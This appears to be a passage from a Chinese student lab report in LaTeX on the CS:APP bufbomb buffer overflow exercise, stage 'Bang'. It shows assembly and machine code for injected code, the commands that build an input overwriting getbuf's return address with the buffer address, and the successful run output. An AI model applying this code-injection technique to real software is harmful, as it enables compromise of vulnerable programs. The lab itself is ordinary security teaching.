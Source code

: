 \documentclass{paper}
\begin{document}
\begin{enumerate}
\begin{enumerate}
上述两个步骤可以通过编写汇编语言代码来实现，在\verb|bang.s|中：
\begin{lstlisting}
.text
    movl $0x7b52e696, 0x804c218 // global_value = my cookie
    movl $0x08048d05, %eax      // jump to bang at 0x08048d05
    jmp  *%eax
\end{lstlisting}
上述代码使用\verb|movl|指令将我们的\verb|cookie|保存到全局变量\verb|gloabal_value|的地址上，并通过转跳指令\verb|jmp|转跳到\verb|bang|函数的入口地址处。

\item 将攻击代码插入到缓冲区中并用入口地址覆盖返回地址

首先使用我们编写好的\verb|asm2bin.sh|脚本获取上述代码对应的机器码及其长度：
\begin{lstlisting}
$ ./asm2bin.sh bang.s
c7 05 18 c2 04 08 96 e6 52 7b b8 05 8d 04 08 ff e0 
code length : 17 Byte
\end{lstlisting}

接着我们将攻击代码安排在输入缓冲区最开始的17个字节中。我们需要计算出攻击代码的入口地址。根据阶段1：\ref{l7}实验过程中的分析可知，\verb|getbuf|函数的返回地址保存在\verb|0x55683c54|中，并对应输入内容中的第\verb|44~47|字节的内容，攻击代码的入口地址即是输入缓冲区的首地址\verb|0x55683c28|。我们需要使用攻击代码的入口地址覆盖\verb|getbuf|函数的返回地址。

使用以下命令向\verb|bang_U202115325|中填入16进制字符串攻击代码：
\begin{lstlisting}
// 插入攻击代码
$ ./asm2bin.sh bang.s | head -n1 > bang_U202115325.txt // byte 0:16，攻击代码
$ ./gencode.sh 27 00 >> bang_U202115325.txt // byte 17:43，占位代码
$ echo -n "28 3c 68 55" >> bang_U202115325.txt // byte 44:47，攻击代码地址
\end{lstlisting}

\end{enumerate}

\item 实验结果

将生成的答案\verb|bang_U202115325.txt|通过\verb|hex2raw|转化为2进制后再输入到可执行文件bufbomb中：
\begin{lstlisting}
$ ./hex2raw < bang_U202115325.txt | ./bufbomb -u U202115325
Userid: U202115325
Cookie: 0x7b52e696
Type string:Bang!: You set global_value to 0x7b52e696
VALID
NICE JOB!
\end{lstlisting}
顺利通过！

\end{enumerate}

\subsubsection{阶段4:Boom}
\end{document}
